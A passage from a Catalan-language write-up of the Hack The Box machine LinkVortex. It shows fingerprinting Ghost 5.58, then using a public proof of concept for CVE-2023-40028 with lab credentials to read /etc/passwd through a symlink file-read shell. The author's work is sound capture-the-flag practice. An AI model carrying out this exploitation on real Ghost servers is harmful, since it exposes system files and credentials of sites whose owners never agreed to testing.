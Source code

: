 Ara hem pogut per fi treure ús de les credencials i hem pogut accedir al dashboard de l'aplicació/programa Ghost. Ghost és un programa basat en NodeJS de gestió de continguts enfocat a blocs, amb multitud dintegracions i que permet una completa personalització de laspecte. En conjunt, és una solució que resulta molt amigable per a qualsevol desenvolupador. Però on realment destaca és el seu rendiment.

![image](https://github.com/user-attachments/assets/f3083692-6f3b-4977-b951-bc3aa700332e)

Ara estem al dashboard però no veiem res rellevant. Per tant, com que sabem quina tecnologia/eina utilitza la pàgina, que és Ghost (https://ghost.org/), si anem a veure el codi font podem veure'n la versió:

</script>

    <meta name="generator" content="Ghost 5.58">
    <link rel="alternate" type="application/rss+xml" title="BitByBit Hardware" href="http://linkvortex.htb/rss/">


Ara per tant, buscarem algun CVE o POC si és que en té que ens permeti accedir a la màquina. Sembla que he trobat un POC a un repositori de GitHub del CVE-2023-40028 que afecta a les versions de Ghost anteriors a la 5.59.1: https://github.com/0xyassine/CVE-2023-40028. El que fa aquest poc és "permetre als usuaris autenticats penjar fitxers que són enllaços simbòlics. Això es pot aprofitar per realitzar una lectura de fitxer arbitrari de qualsevol fitxer del sistema operatiu amfitrió. Es recomana que els administradors del lloc comprovin l'explotació d'aquest problema buscant enllaços simbòlics desconeguts dins del contingut/carpeta de Ghost. La versió 5.59.1 conté una solució per a aquest problema i no hi ha cap solució alternativa coneguda.". A més a més, complim amb els seus dos requeriments:

    Accés a una versió Ghost vulnerable (anterior a la 5.59.1)
    Compte d'usuari autenticat


Ja que el compte d'usuari autenticat ha de ser alguna de les dos contrasenyes que hem trobat abans.

Per tant, anem a provar què obtenim amb ell. Primer editem l'script i canviem el 127.0.0.1 per el nom de domini que tenim posat al nostre fitxer /etc/hosts: `GHOST_URL='http://linkvortex.htb'`.

Ara donem permisos d'execució a l'script i l'executem i el propi script ja ens diu com s'ha d'utilitzar:

````                                                                                                                                 
┌──(kali㉿kali)-[~/Documents/LinkVortex]
└─$ nano CVE-2023-40028.sh 
                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~/Documents/LinkVortex]
└─$ ./CVE-2023-40028.sh 
Usage: ./CVE-2023-40028.sh -u username -p password
````

I utilitzem l'script amb les credencials que hem accedit al dashboard de Ghost que ens permetrà accedir al fitxer del sistema que volem, com si féssim un cat:

````
┌──(kali㉿kali)-[~/Documents/LinkVortex]
└─$ ./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
WELCOME TO THE CVE-2023-40028 SHELL
file> 
````
Per lògica, igual que a l'anterior màquina que vaig fer, l'Alert, miro d'extreure les dades del fitxer /etc/passwd per veure els usuaris i si fos el cas les contrasenyes que tenen en el servidor però no trobo res rellevant:
````
┌──(kali㉿kali)-[~/Documents/LinkVortex]
└─$ ./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
WELCOME TO THE CVE-2023-40028 SHELL
file> /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
````